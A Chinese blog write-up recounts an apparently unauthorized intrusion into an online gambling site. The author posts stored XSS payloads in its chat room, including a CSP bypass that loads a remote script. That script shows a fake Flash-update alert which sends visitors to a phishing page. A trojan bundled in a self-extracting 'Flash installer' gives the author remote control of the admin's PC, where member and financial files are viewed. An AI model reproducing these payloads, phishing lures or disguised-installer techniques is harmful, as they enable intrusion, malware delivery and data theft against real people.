记一次BC站实战渗透 | 从XSS到主机上线
故事的起因
前几天收到一封邮件，内容是这样的：

你说发谁哪里不好，发到我这里来，正好最近辞职了没事干，搞下看看。
加上那个人的好友以后，象征性的聊了几句，大概就是：我说自己因为网赌没钱借了高利贷，让他带我玩这个，好还上贷款，没说几句就给我发了网址和邀请码（这个站没邀请码注册不上），让我去网站里面充钱，我说好，我先去冲一千，完事师傅你一定要好好带我，然后就去注册了（后来我没充钱，他就一直抖我，给我发消息，觉得烦就把他删了，所以聊天记录也没了，简单口述下没截图）。
漏洞挖掘
官网截图
信息收集阶段略过，太麻烦了，有云盾（WAF+CDN），看下面云悉指纹识别的图吧，测试各种功能点，没有结果，不得不说，大部分BC安全都是做的不错的。

想了会，看到一个聊天室功能，进去看看都在说啥，结果发现说话来来回回就那几个人，偶尔有几个和我一样的普通会员，我就感觉，这尼玛是不是托啊，一堆什么导师嚷嚷着跟着下注。
职业习惯：
看见框就想叉，一发xss payload打过去：
</tExtArEa>'"><sCRiPt sRC=XSSURL></sCrIpT>
wdnmd没反应？明明加载了啊…问了下别的师傅，说这种情况有可能是有CSP，附上相关介绍：
https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP
我这里就不解释了，本来打算放弃，想了下万一 img 的没有被限制呢。
再吃我一发：
<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='XSSURL';>
叮 ~ 叮 ~ 手机响了，多么美妙的声音，payload成功执行，打来一堆cookie（还是不同域名），然而现实是残酷的，这个站有HttpOnly，cookie不能用，历史密码也没拿到，不过不要灰心，咱还有更猥琐的办法。

Flash水坑钓鱼
既然正面肛不动你，咱就来侧面的。前段时间经常看到无常师傅的flash钓鱼操作，很经典啊，然后就想到自己有天会用到flash官网的钓鱼源码，很早就写好了放在GitHub上：https://github.com/r00tSe7en/Fake-flash.cn

前期准备
一个免费空间，一个免费域名（域名可以搞一个 www.flashxxx.tk 这种的，可信度比较高），一个可以正常上线的马子。
然后xss平台搞个模块，简单解释下代码，一开始重写alert方法并屏蔽网址显示，弹出Flash升级提示，跳转至钓鱼页：

关于马子
可以做到运行正常安装文件的同时运行马子，骚姿势：自解压捆绑文件的利用
https://www.baikesec.com/webstudy/still/77.html
为了让自解压的exe文件可以正常运行（已经改成了正常的安装文件图标），必须确保他有解压软件，我就把钓鱼页的自解压文件压缩了下，成了 flashplayerpp_install_cn.zip，这样一来他必须安装解压文件才能打开安装程序，马子自然生效了。
关于免杀
由于技术有限，毕竟咱也不是搞免杀的，生成的马子会被部分杀软报毒，也不知道对面用什么杀软，所以想了个猥琐但有效的办法，其实不少下载站下载的文件也爱这么干，哈哈。

一切就绪
万事俱备，只欠东风，直接发出去刚才写的升级提示+跳转的xss payload：

页面成功弹出提示，对方不点确定页面就一直卡住，点了确定就跳来我的钓鱼页（这里钓鱼页也加了点料，让他点返回时无限回跳钓鱼页）
不过一开始并没有人上线，再点进去一看管理员重置了聊天页的内容。奥利给曾经说过：我们遇到什么困难也不要怕，咱换个号继续叉呗，在间歇性叉叉圈圈了十几次之后，管理员可能是实在忍不住了（管理员：大哥你别弹了，我装还不行嘛），终于运行了我的马子。
成功上线：
这里就上线了一台，不过很幸运，是管理员的机器，不然之前的努力都白费了。

看一会对面在干哈：

这个清楚点，可以看到还依然打开着钓鱼页，俩人还讨论亏钱了，笑死了：

打开了一个账面，这流水咱也看不懂：

再看看有存着啥好东西，两个硬盘一个U盘，C盘E盘没有什么：

F盘里有料了，都是一些会员数据，账单流水，管理后台配置啥的：

点到为止：
不多说了，看了下上线的IP，为了挣钱跑的挺远，老哥背井离乡怪不容易的，祝你安安心心的回到祖国的怀抱过个年吧。。。


原创投稿作者: Se7en